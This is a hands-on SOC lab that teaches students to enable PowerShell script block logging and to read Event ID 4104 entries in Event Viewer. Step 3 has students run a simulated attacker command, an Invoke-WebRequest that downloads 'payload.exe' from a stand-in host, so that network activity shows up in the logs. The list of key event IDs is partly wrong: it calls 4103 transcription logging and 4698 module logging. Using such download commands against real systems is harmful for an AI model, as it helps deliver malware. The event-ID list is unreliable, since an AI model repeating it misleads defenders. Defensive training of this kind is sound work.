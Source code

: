 # **Lab: Log Analysis Basics: Windows PowerShell Logs**

## **Objective:**
The objective of this lab is to introduce students to **Windows PowerShell Logs** and help them understand how to analyze PowerShell-related events. Students will learn how to explore and analyze PowerShell logs to detect suspicious or malicious PowerShell commands that could indicate an attack or compromise.

---

## **Lab Setup**
### **Requirements:**
- **System:** Windows 10/11 or Windows Server 2019/2022
- **Tools:**
  - **Windows Event Viewer** (pre-installed)
  - **PowerShell (Pre-installed on Windows)**
  - **Administrative Privileges** (required for enabling logs)

---

## **Preparation:**
In this lab, you will explore and analyze **Windows PowerShell Logs** in the **Event Viewer**. These logs record events related to PowerShell execution, such as the running of scripts, command usage, and potential malicious activities.

### **On Windows:**
1. Press `Win + R` and type `eventvwr.msc` to open the **Event Viewer**.
2. In the **Event Viewer**, expand the **Applications and Services Logs** section and navigate to:
`Microsoft → Windows → PowerShell → Operational`

3. You should now be able to see logs related to PowerShell activities.

---

## **What are Windows PowerShell Logs?**
PowerShell logs contain information about PowerShell script executions, including details about the commands that were run, the processes that invoked them, and the user who executed them. These logs can be used to detect potential misuse of PowerShell, including post-exploitation techniques often used by attackers.

### **Key PowerShell Logs to Monitor:**
- **Event ID 4104**: Script block logging, capturing the PowerShell commands executed.
- **Event ID 4103**: Transcription logs for all PowerShell sessions.
- **Event ID 4698**: PowerShell Module Logging for the execution of specific modules.
- **Event ID 4101**: Execution of PowerShell commands through command-line arguments.

---

## **Lab Task: Explore and Analyze Windows PowerShell Logs**

### **Step 1: Enable PowerShell Script Block Logging**
Before proceeding, make sure PowerShell script block logging is enabled on your system:

1. Press `Win + R`, type `gpedit.msc`, and press Enter to open the **Group Policy Editor**.
2. Navigate to:
`Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell`
3. Turn on **Module Logging**, **Script Block Logging**, and **Script Execution**.
4. Apply the settings and close the Group Policy Editor.

### **Step 2: Generate PowerShell Logs**
1. Open **PowerShell** as Administrator.
2. Run the following PowerShell command to generate a log entry:
```powershell
Get-LocalUser | Select-Object Name, Enabled
```
This command will list the local users on your system, which attackers might use to gather information during post-exploitation.

3. After running the command, go back to Event Viewer and navigate to:

`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`

4. Look for Event ID 4104 in the logs (this will show script block logging for the PowerShell command you executed).
5. Take a screenshot of the event details, including:
 - PowerShell command that was executed
 - User who ran the command
 - Timestamp of the execution

### **Step 3: Simulate Malicious PowerShell Command**
1. Open PowerShell and run the following suspicious command that might be used by an attacker:

```
Invoke-WebRequest -Uri "http://maliciouswebsite.com/payload.exe" -OutFile "C:\temp\payload.exe"`
```
This command simulates downloading a malicious payload from a remote server.
2. Go back to Event Viewer and filter the PowerShell logs for Event ID 4104.
3. Check for any suspicious activity or abnormal PowerShell command execution, specifically focusing on the `Invoke-WebRequest` or any network-based PowerShell command.
4. Take a screenshot of the event details.

### **Step 4: Analyze Suspicious PowerShell Logs**
- Investigate any PowerShell events that show script execution from suspicious sources or unexpected locations.
- Identify the user executing the command and any related system activity (e.g., downloading files, executing binaries).
- Review the Event ID 4104 logs and check for patterns such as unusual script execution or command-line arguments that could indicate malicious behavior.


## Conclusion:
- Understanding PowerShell Logs: PowerShell logs are crucial for detecting the misuse of PowerShell by attackers. By analyzing PowerShell event logs, you can identify suspicious commands and potential security threats.
- SOC Analyst Role: As a SOC Analyst, reviewing these logs is vital for detecting post-exploitation activities, including malicious PowerShell commands often used for lateral movement, credential dumping, and payload execution.
- Threat Detection: Monitoring PowerShell logs can help identify abnormal activity early, allowing for faster detection and response to potential threats.

## Submission:
- Event ID 4104 (PowerShell Script Execution): Submit a screenshot showing a PowerShell script execution event from the logs.
- Malicious PowerShell Command: Submit a screenshot showing the execution of a suspicious or malicious PowerShell command.
